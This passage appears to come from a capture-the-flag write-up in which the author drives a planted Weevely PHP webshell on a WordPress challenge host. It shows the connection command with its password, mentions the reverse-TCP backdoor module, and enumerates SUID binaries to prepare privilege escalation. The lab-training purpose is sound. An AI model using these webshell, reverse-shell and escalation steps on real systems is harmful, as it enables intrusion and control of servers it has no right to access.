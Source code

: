 Done !

Weevely webshell is really simple to use.

```md
[th1b4ud@th1b4ud-pc weevely3]$ ./weevely.py http://survive-all.santhacklaus.xyz/wp-content/uploads/3e5t12e.php teachunbequatreude_password

[+] Weevely 3.7.0

[+] Target:	survive-all.santhacklaus.xyz
[+] Session:	/home/th1b4ud/.Weevely/sessions/survive-all.santhacklaus.xyz/3e5t12e_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

Weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The power of this tool comes from all its features. On this challenge, normal reverse shell weren't working. With Weevely, you will not lost time to found a functionnal reverse shell : just use : `:backdoor_reversetcp` (yeah I know, this name s**k so much) :'(

![](/img/santhacklaus-2019/screen-16-4-5.png)

Weevely also have a module to enumerates suid/guid binaries to prepare your privilege escalation !

```md
www-data@081256f7edc3:/var/www/html/wp-content/uploads $ :audit_suidsgid /
+---------------------------------------------+
| /usr/bin/passwd                             |
| /usr/bin/gpasswd                            |
| /usr/bin/wall                               |
| /usr/bin/newgrp                             |
| /usr/bin/chage                              |
| /usr/bin/chsh                               |
| /usr/bin/expiry                             |
| /usr/bin/chfn                               |
| /usr/bin/ssh-agent                          |
| /usr/local/share/fonts                      |
| /usr/local/bin/sudo                         |
| /usr/lib/dbus-1.0/dbus-daemon-launch-helper |
| /usr/lib/openssh/ssh-keysign                |
| /var/mail                                   |
| /var/local                                  |
| /bin/su                                     |
| /bin/umount                                 |
| /bin/mount                                  |
| /opt/gather_todos_wrapper                   |
| /sbin/unix_chkpwd                           |
+---------------------------------------------+
```
